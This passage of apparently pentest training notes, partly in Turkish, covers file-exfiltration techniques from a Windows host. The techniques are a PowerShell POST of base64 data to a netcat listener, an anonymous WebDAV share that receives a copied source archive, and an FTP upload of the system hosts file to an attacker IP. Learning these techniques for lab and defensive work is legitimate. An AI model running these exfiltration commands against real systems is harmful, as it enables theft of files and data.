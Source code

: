 ##### 2-**Web İsteği Gönderme Komutu**:
```powershell-session
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

##### 3- Attack Host 
```shell-session
nc -lvnp 8000
```

```shell-session
echo <base64> | base64 -d -w 0 > hosts
```


### 3-SMB Uploads (WebDav ile)

##### 1- Configuring WebDav Server

```shell-session
sudo pip3 install wsgidav cheroot
```

##### 2-**WebDav Python modülünü kullanma**

```shell-session
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

##### 3-**Webdav Paylaşımına Bağlanma**

```cmd-session
dir \\192.168.49.128\DavWWWRoot
```

Sunucuya bağlanırken sunucunuzda var olan bir klasörü belirtirseniz bu anahtar sözcüğü kullanmaktan kaçınabilirsiniz. Örneğin: \192.168.49.128\sharefolder


##### 4-Uploading Files using SMB

```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```


### 4-FTP Uploads


##### 1- Python3 FTP Sunucusu Kurma (--write)

```shell-session
sudo python3 -m pyftpdlib --port 21 --write
```

##### 2- PowerShell Upload File

```powershell-session
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
